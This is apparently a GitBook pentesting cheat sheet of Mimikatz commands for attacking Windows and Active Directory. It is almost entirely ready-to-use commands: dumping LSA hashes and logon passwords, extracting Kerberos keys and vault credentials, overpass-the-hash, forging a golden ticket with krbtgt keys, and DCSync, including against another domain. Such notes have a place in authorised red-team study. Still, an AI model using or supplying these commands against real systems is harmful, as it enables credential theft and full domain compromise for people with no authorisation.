 # Mimi Tools

{% hint style="warning" %}
This command requires elevated privileges (by previously running privilege::debug or token::elevate or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

### Dump local hash

```mimikatz
lsadump::lsa /patch
```

```
sekurlsa::logonpasswords
```

### Dump Kerberos hash

```
sekurlsa::ekeys
```

```
sekurlsa::kerberos
```

### **OverPass the hash**

{% code overflow="wrap" %}
```
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe
```
{% endcode %}

### Extract from credential vault

```powershell
vault::cred /patch
```

### Use krbtgt creds to forge a golden ticket

{% code overflow="wrap" %}
```
kerberos::golden /User:Administrator /domain:<DOMAIN> /sid:<SID DC> /aes256:<AES KRBTGT> /startoffset:0 /endin:600 /renewmax:10080 /ptt
```
{% endcode %}

### DCSync

```
lsadump::dcsync /user:dcorp\krbtgt
```

<figure><img src="../../../.gitbook/assets/Pasted image 20231025125418 (2).png" alt=""><figcaption></figcaption></figure>

#### To another domain

{% code overflow="wrap" %}
```cmd
lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<TARGET DOMAIN>
```
{% endcode %}
